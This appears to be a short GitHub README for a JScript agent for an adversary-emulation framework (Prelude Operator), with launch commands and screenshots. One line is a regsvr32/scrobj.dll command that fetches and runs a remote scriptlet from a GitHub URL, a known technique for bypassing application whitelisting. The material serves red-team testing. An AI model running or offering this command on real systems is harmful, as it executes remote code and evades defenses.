 ## Examples in JScript.

`cscript.exe [filename.js]`

## COM Scriptlet

`regsvr32.exe /s /u /i:https://raw.githubusercontent.com/secdev-01/PreludeOperator_QuickCheck/main/jscript/prelude_checkin.sct scrobj.dll`

## cscript

`cscript dotnet_interop.js`

Create a simple TTP that uses cmd executor

<img width="1000" alt="Screen Shot 2021-06-26 at 5 22 51 PM" src="https://user-images.githubusercontent.com/83469949/123528231-33159d80-d6a3-11eb-8cc3-2ccd2311c170.png">

STDOUT is returned as base64 encoded, so we don't have to deal with all the escaping etc...

Screen Shot 2021-06-26 at 5.17.40 PM<img width="777" alt="Screen Shot 2021-06-26 at 5 17 40 PM" src="https://user-images.githubusercontent.com/83469949/123528256-5f311e80-d6a3-11eb-90e2-c8cc0140eacf.png">


```
There is alot more to do here to make it more production ready, but in a sense these are some really simple building blocks

```
